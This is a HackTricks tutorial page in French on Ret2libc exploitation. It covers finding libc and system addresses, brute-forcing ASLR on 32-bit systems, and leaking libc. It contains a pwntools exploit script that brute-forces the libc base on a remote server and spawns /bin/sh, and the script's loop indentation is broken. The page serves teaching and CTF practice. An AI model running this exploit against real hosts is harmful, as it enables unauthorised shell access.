 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Informations de base**

L'essence de **Ret2Libc** est de rediriger le flux d'exécution d'un programme vulnérable vers une fonction d'une bibliothèque partagée (par exemple, **system**, **execve**, **strcpy**) au lieu d'exécuter du shellcode fourni par l'attaquant sur la pile. L'attaquant crée un payload qui modifie l'adresse de retour sur la pile pour pointer vers la fonction de bibliothèque souhaitée, tout en s'assurant que tous les arguments nécessaires soient correctement configurés selon la convention d'appel.

### **Étapes d'exemple (simplifiées)**

* Obtenez l'adresse de la fonction à appeler (par exemple, system) et la commande à appeler (par exemple, /bin/sh)
* Générez une chaîne ROP pour passer le premier argument pointant vers la chaîne de commande et le flux d'exécution vers la fonction

## Trouver les adresses

* Supposons que la `libc` utilisée est celle de la machine actuelle, vous pouvez trouver où elle sera chargée en mémoire avec :

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Si vous voulez vérifier si l'ASLR change l'adresse de libc, vous pouvez faire :
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* En connaissant la libc utilisée, il est également possible de trouver le décalage vers la fonction `system` avec :
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* En connaissant la libc utilisée, il est également possible de trouver le décalage vers la chaîne `/bin/sh` avec :
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Utilisation de gdb-peda / GEF

En connaissant la libc utilisée, il est également possible d'utiliser Peda ou GEF pour obtenir l'adresse de la fonction **system**, de la fonction **exit** et de la chaîne **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Utilisation de /proc/\<PID>/maps

Si le processus crée des **enfants** chaque fois que vous communiquez avec lui (serveur réseau), essayez de **lire** ce fichier (vous aurez probablement besoin d'être root).

Ici, vous pouvez trouver **exactement où la libc est chargée** à l'intérieur du processus et **où elle sera chargée** pour chaque enfant du processus.

![](<../../../../.gitbook/assets/image (95).png>)

Dans ce cas, elle est chargée à **0xb75dc000** (Ceci sera l'adresse de base de la libc)

## Libc inconnue

Il se peut que vous **ne sachiez pas quelle libc le binaire charge** (car elle pourrait être située sur un serveur auquel vous n'avez pas accès). Dans ce cas, vous pourriez abuser de la vulnérabilité pour **fuir certaines adresses et trouver quelle bibliothèque libc** est utilisée :

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Et vous pouvez trouver un modèle pwntools pour cela dans :

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Contournement de l'ASLR en 32 bits

Ces attaques par force brute sont **uniquement utiles pour les systèmes 32 bits**.

* Si l'exploit est local, vous pouvez essayer de forcer l'adresse de base de la libc (utile pour les systèmes 32 bits) :
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Si vous attaquez un serveur distant, vous pourriez essayer de **forcer l'adresse de la fonction `libc` `usleep`**, en passant comme argument 10 (par exemple). Si à un moment donné le **serveur met 10s de plus à répondre**, vous avez trouvé l'adresse de cette fonction.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## Exemple de code x86 Ret2lib

Dans cet exemple, le brute-force ASLR est intégré dans le code et le binaire vulnérable est situé sur un serveur distant :
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (ou puts)

Cela permet de **fuiter des informations du processus** en appelant `printf`/`puts` avec des données spécifiques placées comme argument.

## Ret2printf

Cela signifie essentiellement abuser d'un **Ret2lib pour le transformer en une vulnérabilité de chaînes de format `printf`** en utilisant le `ret2lib` pour appeler printf avec les valeurs à exploiter (semble inutile mais possible) :

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Autres exemples et références

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, donné une fuite à l'adresse d'une fonction dans libc, utilisant un gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bits, ASLR activé mais pas de PIE, la première étape consiste à remplir un débordement jusqu'au byte 0x00 du canary pour ensuite appeler puts et le fuiter. Avec le canary, un gadget ROP est créé pour appeler puts afin de fuiter l'adresse de puts depuis le GOT et un gadget ROP pour appeler `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bits, ASLR activé, pas de canary, débordement de pile dans main depuis une fonction enfant. Gadget ROP pour appeler puts afin de fuiter l'adresse de puts depuis le GOT et ensuite appeler un gadget.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bits, pas de pie, pas de canary, pas de relro, nx. Utilise la fonction write pour fuiter l'adresse de write (libc) et appelle un gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
